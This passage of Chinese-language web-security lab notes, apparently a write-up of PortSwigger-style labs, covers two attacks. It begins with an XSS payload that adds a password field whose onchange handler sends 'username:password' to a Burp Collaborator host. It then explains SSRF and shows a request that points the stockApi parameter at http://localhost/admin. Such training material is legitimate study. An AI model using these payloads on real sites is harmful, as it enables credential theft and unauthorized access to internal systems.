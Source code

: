 3、重置密码

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

# SSRF

## 前置知识

服务器端请求伪造（SSRF）

### 简述

1、服务器端请求伪造（也称为SSRF）是一个Web安全漏洞，允许攻击者诱使服务器端应用程序向非预期位置发出请求。

2、在典型的SSRF攻击中，攻击者可能会使服务器连接到组织基础设施中的仅限内部的服务。在其他情况下，它们可能会强制服务器连接到任意外部系统，从而可能泄漏授权凭据等敏感数据

3、SSRF攻击经常利用信任关系从易受攻击的应用程序升级攻击并执行未经授权的操作。这些信任关系可能与服务器本身相关，也可能与同一组织内的其他后端系统相关。 

### 影响

1、成功的SSRF攻击通常会导致未经授权的操作或对组织内数据的访问，无论是在易受攻击的应用程序本身还是在应用程序可以与之通信的其他后端系统上。在某些情况下，SSRF漏洞可能允许攻击者执行任意命令。

2、导致连接到外部第三方系统的SSRF漏洞利用可能会导致恶意的向前攻击，这些攻击似乎源自托管易受攻击的应用程序的组织。 

## Lab1

### 前置

SSRF攻击服务器本身

1、在针对服务器本身的SSRF攻击中，攻击者诱使应用程序通过其环回网络接口向托管应用程序的服务器发出HTTP请求。这通常涉及提供一个带有主机名的URL，如127.0.0.1（指向环回适配器的保留IP地址）或localhost（同一适配器的常用名称）2、例如一个购物应用程序，它允许用户查看某个商品在特定商店中是否有库存。要提供库存信息，应用程序必须查询各种后端REST API，具体取决于所涉及的产品和商店。该函数是通过前端HTTP请求将URL传递给相关后端API端点来实现的

```
当用户查看商品的库存状态时，浏览器会发出如下请求： 
 
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
 
stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1
```

```
这将导致服务器向指定的URL发出请求，检索库存状态，并将其返回给用户。
在这种情况下，攻击者可以修改请求以指定服务器本身的本地URL。例如： 
 
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118
 
stockApi=http://localhost/admin
（服务器将获取/admin URL的内容并将其返回给用户）
```
